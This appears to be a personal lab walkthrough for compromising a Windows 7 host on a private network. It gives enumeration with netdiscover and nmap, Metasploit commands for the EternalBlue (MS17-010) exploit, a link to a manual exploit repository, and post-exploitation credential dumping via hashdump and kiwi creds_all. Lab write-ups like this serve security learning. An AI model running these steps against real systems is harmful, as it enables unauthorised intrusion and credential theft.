


## Enumeration

```
sudo netdiscover -r 10.0.2.0/24

IP -> 10.0.2.6
```

#### NMAP

```
nmap -T4 -p- -A <IP>
```

## Metasploit way

* smb open
* windows 7 Professional 7601 Service Pack 1

This means it was a possibility to be vulnerable to eternal blue 0 smb\_ms17\_010

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS $IP
run
```



* Run eternal blue explit to root the machine

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
run
```



Can try to change the payload to meterpetrer with staged payload


## Manual way

[Github Page Link](https://github.com/3ndG4me/AutoBlue-MS17-010)

## Useful commands in windows

### Windows shell

* hashdump
* getuid
* sysinfo
* route print
* arp -a
* netstat -ano
* ps

### Meterpreter

* enter in shell (shell)
* kiwi
  * help
  * creds\_all


